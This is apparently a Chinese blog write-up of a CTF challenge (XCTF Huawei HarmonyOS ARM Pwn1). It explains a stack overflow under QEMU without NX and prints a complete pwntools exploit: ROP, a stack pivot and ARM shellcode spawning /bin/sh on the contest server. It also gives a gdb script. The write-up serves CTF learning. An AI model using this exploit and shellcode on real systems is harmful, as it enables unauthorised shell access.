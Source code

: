 ```yaml
---
title: XCTF华为鸿蒙专场 ARM Pwn1
date: 2020-12-29 00:00:00
categories:
- CTF/Pwn
tags: 栈溢出
---
```


> 栈溢出，ARM题目的一般环境是QEMU用户态，默认不支持NX，故直接ROP+栈迁移然后写shellcode即可。

- 题目附件：[arm_pwnit.zip](https://xuanxuanblingbling.github.io/assets/attachment/huawei/arm_pwnit.zip)
- shellcode：[http://shell-storm.org/shellcode/files/shellcode-659.php](http://shell-storm.org/shellcode/files/shellcode-659.php)

```python
from pwn import *
context(arch='arm',os='linux',log_level='debug')

#io = process(["qemu-arm","-g","1234","-L",".","./bin"])
#io = process(["qemu-arm","-L",".","./bin"])
io = remote("139.159.210.220",9999)
shellcode =  b'\x02\x20\x42\xe0\x1c\x30\x8f\xe2'
shellcode += b'\x04\x30\x8d\xe5\x08\x20\x8d\xe5'
shellcode += b'\x13\x02\xa0\xe1\x07\x20\xc3\xe5'
shellcode += b'\x04\x30\x8f\xe2\x04\x10\x8d\xe2'
shellcode += b'\x01\x20\xc3\xe5\x0b\x0b\x90\xef'
shellcode += b'/bin/sh;'

pop_r3_pc = 0x00010348
data_addr = 0x00021030
read_addr = 0x000104E8

payload = b'a'*256+p32(data_addr)+p32(pop_r3_pc)+p32(data_addr)+p32(read_addr)
io.sendafter("input: ",payload);sleep(0.1)
io.sendline(p32(data_addr+4)+shellcode)
io.interactive()
```

gdb脚本：

```c
file bin
set architecture arm
b * 0x00010500
b * 0x000104F4
target remote :1234
```

其他WP都是用通用gadget做的（我还不会...感觉对于qemu题麻烦了，还要泄露libc啥的，而且exp中立即数太多，看着迷糊：

- [XCTF高校网络安全专题挑战赛-HarmonyOS和HMS专场 官方Writeup](https://www.xctf.org.cn/library/details/5acdc1c31cf4935ac38fce445978888a5710cf11/)
- [xctf高校挑战赛2020-华为harmonyos和hms专场WP（pwn部分）](https://www.1p0ch.cn/2020/12/28/%E5%8D%8E%E4%B8%BAxctf%E7%AC%AC%E4%B8%89%E5%9C%BApwn/)
- [peanuts'blog XCTF-华为专场](http://peanuts2ao.top/2020/12/30/XCTF-%E5%8D%8E%E4%B8%BA%E4%B8%93%E5%9C%BA/)
- [华为三场CTF WP By Nu1L](https://mp.weixin.qq.com/s/6bclKFJudlX1OBsS4WY3dw)
